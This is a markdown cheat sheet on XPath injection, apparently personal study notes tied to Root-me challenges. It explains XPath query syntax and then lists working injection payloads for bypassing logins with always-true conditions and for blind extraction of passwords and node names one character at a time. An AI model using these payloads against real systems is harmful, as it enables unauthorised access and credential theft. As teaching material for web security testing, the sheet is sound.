```yaml
---
title:  "XPath injections"
topic: "web"
---
```

# Introduction
* XPath: XML Path Language. Interpreted language to navigate XML documents.
  XPath expression: sequence of steps required to navigate from one node to another
* XML files used to store applications configuration, and sometimes credentials, roles and privileges
* Single quotes not needed for numeric values
* Keywords and tag names in XML documents are case-sensitive
* Strategy: when regular SQL injections fail, it might be an XPath injection

# Example of queries
* Retrieve all email addresses: `//address/email/text()`
* Retrieve all information under `address` for the user Dawes: `//address[surname/text()='Dawes']`
* Credential verification: `//address[surname/text()='$user' and password/text()='$pass']`
* Access 2nd node of the first user: `//user[position()=1]/child::node()[position()=2]/text()`
* Count the number of nodes of all users: `count(//user/child::node())`
* Length of string: `stringlength(//address/email/text())`
* Substring extraction: `substring(//user/name/text(), start, n_char)`


# Injections
* Testing: `'`, `' or 'a'='a`
* `//address[surname/text()]='Dawes' and password/text()='' or 'a'='a']/ccard/text()`
* Password dump: `' or //address[surname/text()='Dave' and substring(password/text(), 1, 1)= 'A'] and 'a'='a` return results if the first letter or the password is 'A'
* For strings:
  * `' or count(parent::*[position()=1])=0 or 'a'='b`
  * `' or count(parent::*[position()=1])>0 or 'a'='b`
* If numeric:
  * `1 or count(parent::*[position()=1])=0`
  * `1 or count(parent::*[position()=1])>0`
* Current's node parent name:
```
' or substring(name(parent::*[position()=1]), 1, 1) = 'a
' or substring(name(parent::*[position()=1]), 1, 1) = 'b
' or substring(name(parent::*[position()=1]), 2, 1) = 'a
' or substring(name(parent::*[position()=1]), 2, 1) = 'b
' or substring(name(parent::*[position()=1]), 2, 1) = 'c
```
* `substring(//parentnodename[position()=1]/child::node()[position()=1]/text(), 1, 1)='a'`



# Resources
* XPath injection - authentication Root-me solutions
* XPath memo: EN - Introduction to Xpath injection techniques.pdf
* [Xcat tool](https://github.com/orf/xcat)
